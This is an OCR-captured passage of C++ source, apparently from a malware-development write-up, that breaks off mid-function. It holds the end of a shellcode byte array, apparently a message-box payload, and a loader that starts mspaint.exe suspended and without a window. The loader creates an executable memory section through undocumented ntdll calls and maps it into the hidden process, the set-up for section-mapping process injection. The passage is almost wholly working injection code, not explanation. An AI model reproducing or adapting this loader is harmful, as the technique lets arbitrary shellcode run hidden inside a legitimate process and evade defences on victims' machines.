 ```cpp
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = (pZwCreateSection)(GetProcAddress(ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = (pNtMapViewOfSection)(GetProcAddress(ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = (pZwUnmapViewOfSection)(GetProcAddress(ntdll, "ZwUnmapViewOfSection"));
  pZwCreateThreadEx myZwCreateThreadEx = (pZwCreateThreadEx)GetProcAddress(ntdll, "ZwCreateThreadEx");
  pZwClose myZwClose = (pZwClose)GetProcAddress(ntdll, "ZwClose");
  
  // create process as suspended
  if (!CreateProcessA(NULL, (LPSTR) "C:\\windows\\system32\\mspaint.exe", NULL, NULL, NULL, 
      CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };
  
  myZwCreateSection(&sh, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, &sectionS, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, NULL, NULL, NULL,
      &s, 2, NULL, PAGE_EXECUTE_READWRITE);
```